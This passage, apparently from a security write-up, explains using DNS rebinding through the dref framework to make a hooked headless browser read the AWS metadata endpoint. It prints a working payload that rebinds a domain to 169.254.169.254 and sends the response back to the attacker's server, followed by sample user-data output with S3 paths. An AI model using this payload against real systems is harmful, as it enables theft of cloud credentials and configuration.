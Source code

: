 Due to browsers' Same-Origin Policy, it is not possible to directly issue a request from the hooked browser to the AWS metadata endpoint and send the response across origins.

DNS rebinding bypasses this policy by dynamically changing the IP address of the attackers domain to point to the desired target. The requirements are that the target service accept any Host header and not be wrapped in SSL/TLS; both requirements are met by the target endpoint.

Most DNS rebinding frameworks load the rebinding attacks in iFrames, which is also dref's default behavior. In this case, the target browsers did not appear to load content from iFrames (this appears to be headless Chrome's behavior based on cursory searches).

_dref_'s flexibility allows the payloads to be written in order to conduct the entire attack in the same frame. The following payload takes a single HTTP Path argument and exfiltrates the response from the endpoint back to the attacker:

```javascript
import * as network from "../libs/network";
import Session from "../libs/session";

const session = new Session();

async function main() {
    // configure the A record to point to the AWS metadata endpoint when triggered
    network.postJSON(session.baseURL + "/arecords", {
domain: window.env.target + "." + window.env.domain,
address: "169.254.169.254",
});

session.triggerRebind().then(() => {
        // exfiltrate the response from the provided args.path argument
        network.get(session.baseURL + window.args.path, (code, headers, body) => {
                session.log({ code: code, headers: headers, body: body });
                });
        });
}

main();
```

## AWS Compromise

The security implications from being able to read data from the AWS metadata endpoint are well documented [elsewhere](https://www.google.com/search?q=aws+ssrf) and will not be covered in depth here.

Requesting the `/latest/user-data/` path will return information the developers wish to make accessible to the instances. This is often a bash script that could contain credentials or paths to an S3 bucket, for example:

```json
"data": {
    "code": 200,
        "body": "
#!/bin/bash -xe
            echo 'KUBE_AWS_STACK_NAME=acme-prod-Nodeasgspotpool2-AAAAAAAAAAAA' >> /etc/environment

            [...]

            run bash -c \"aws s3 --region $REGION cp s3://acme-kube-prod-978bf8d902cab3b72271abf554bb539c/kube-aws/clusters/acme-prod/exported/stacks/node-asg-spotpool2/userdata-worker-4d3482495353ecdc0b088d42510267be8160c26bff0577915f5aa2a435077e5a /var/run/coreos/$USERDATA_FILE\"

                [...]

                exec /usr/bin/coreos-cloudinit --from-file /var/run/coreos/$USERDATA_FILE
                    "
                    ```

```